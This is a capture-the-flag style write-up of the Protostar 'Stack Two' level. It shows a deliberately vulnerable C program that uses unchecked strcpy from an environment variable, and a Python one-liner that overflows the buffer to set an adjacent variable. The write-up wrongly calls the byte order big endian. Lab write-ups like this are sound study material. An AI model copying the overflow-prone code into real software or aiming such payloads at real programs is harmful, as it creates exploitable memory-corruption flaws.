 # Stack Two

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Writeup

In this code there is a buffer of 64 element and upper that there is the modified variable.

We can set the **GREENIE** environment variable to overflow the buffer and overwrite the modified variabile by corrupting the stack.

The modified variable need to be **0x0d0a0d0a**, we can write it in **big endian** as this:

```bash
GREENIE=`python -c "print('a'*64 + '\x0a\x0d\x0a\x0d')"` /opt/protostar/bin/stack2
```

With this output:

```bash
$ GREENIE=`python -c "print('a'*64 + '\x0a\x0d\x0a\x0d')"` /opt/protostar/bin/stack2
you have correctly modified the variable
```